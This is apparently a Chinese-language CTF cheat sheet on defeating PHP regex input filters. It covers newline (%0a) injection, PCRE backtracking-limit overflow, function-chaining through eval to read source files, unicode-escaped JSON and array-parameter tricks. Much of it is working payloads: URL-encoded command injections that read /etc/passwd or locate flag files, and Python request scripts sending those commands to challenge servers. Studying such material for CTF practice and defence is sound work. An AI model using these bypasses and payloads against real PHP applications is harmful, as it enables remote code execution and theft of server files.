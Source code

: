 ## **特殊正则绕过1**
```
if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias省略见下面|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];


preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|
compgen|complete|continue|declare|dirs|disown|
echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|
kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|
shopt|source|suspend|test|times|trap|type|typeset|ulimit|
umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) 

```
正则匹配表达式采用了^xxx$的格式，同时也采用了.*这样的贪婪匹配，所以有两个方案来绕过正则——回溯次数超限和利用%0a。

^
#### **1、%0a绕过**
因为正则匹配中'^'和'$'代表的是行的开头和结尾,所以能利用换行绕过。
![](.topwrite/assets/image_1728045913134.png)
```
cmd={"cmd":"/bin/cat%20/etc/passwd"}
cmd=%0a%0a{"cmd":"/bin/cat%20/etc/passwd"}%0a%0a
cmd=%0a%0a{"cmd":"/usr/bin/find%20/%20-name%20flag*"}%0a%0a
```

其他案例：
```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```
$_SERVER['QUERY_STRING']获取查询语句，既要绕过get参数中下划线_的过滤，用.替换，还要绕过正则匹配的23333，通过%0a。
```
?b.u.p.t=23333%0a
```
其他案例：
```
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
```
传$a=php%0a1


^
#### **2、回溯次数超限绕过**
```
import requests as res

url="http://a3388f0b-b347-4570-ad9e-88649da2aa29.node4.buuoj.cn:81/"
while(True):
    payload=input("resp:") #/bin/cat /home/rceservice/flag
    resp=res.get(url,params={"cmd":'\x0a\x0a{"cmd":"%s"}\x0a\x0a'%(payload)})
    print(resp.text)

import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'  # 这里只能回溯100万
res = requests.post("http://challenges.fbctf.com:8085/", data={"cmd":payload})
print(res.text)

```


其他案例：
```
if(preg_match('/.+?ctfshow/is', $f)){ //不要有 字符+ctfshow
    die('bye!');
}
if(stripos($f, 'ctfshow') === FALSE){ //要有ctfshow
    die('bye!!');
}
```
当回溯的次数绕过了25万是preg_match返回的非1和0，而是false，所以可以绕过preg_match函数。
```
import requests
 
url='http://8d380352-394f-4754-8bde-5c906930bcd2.challenge.ctf.show/'
data={
    'f':'very'*250000+'ctfshow'
}
r=requests.post(url=url,data=data).text
print(r)
```


^
## **无字母RCE绕过**
不可大于字符：1、url 。2、异或。3、或。4、与。5、取反
自增


^
## **冷门函数绕过正则**
```
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
```
保留的英文字母和英文()，就是使用函数绕过。
构造：?c=print_r(scandir(pos(localeconv()))); 
得到：Array ( [0] => . [1] => … [2] => flag.php [3] => index.php ) 
现在要读取到倒数第二的文件，使用数组逆序函数 
构造：?c=print_r(array_reverse(scandir(pos(localeconv())))); 
得到：Array ( [0] => index.php [1] => flag.php [2] => … [3] => . ) 
再进行读取指定到第二个 构造：?c=print_r(next(array_reverse(scandir(pos(localeconv()))))); 
源码读取指定的：?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

更多函数参考：
```
each() 返回数组中当前的键/值对并将数组指针向前移动一步
end() 将数组的内部指针指向最后一个单元
next() 将数组中的内部指针向前移动一位
prev() 将数组中的内部指针倒回一位
array_reverse() 以相反的元素顺序返回数组
localeconv()：返回一包含本地数字及货币格式信息的数组。其中数组中的第一个为点号(.)
pos()：返回数组中当前元素的值
scandir()：获取目录下的文件
array_reverse()：将数组逆序排列
next()：函数将内部指针指向下一元素，并输出
print_r(scandir(‘.’)); 查看当前目录下的所有文件名
current() 函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名
```

^
^
## **JSON绕过关键词过滤**
JSON可以使用UNicode的16进制编码绕过。
如
```
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}
```

^
## **传参变数组绕过**
```
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
die('Invalid nickname');

这里只需要
nickname=;;;;;
变成
nickname[]=;;;;
即可绕过
```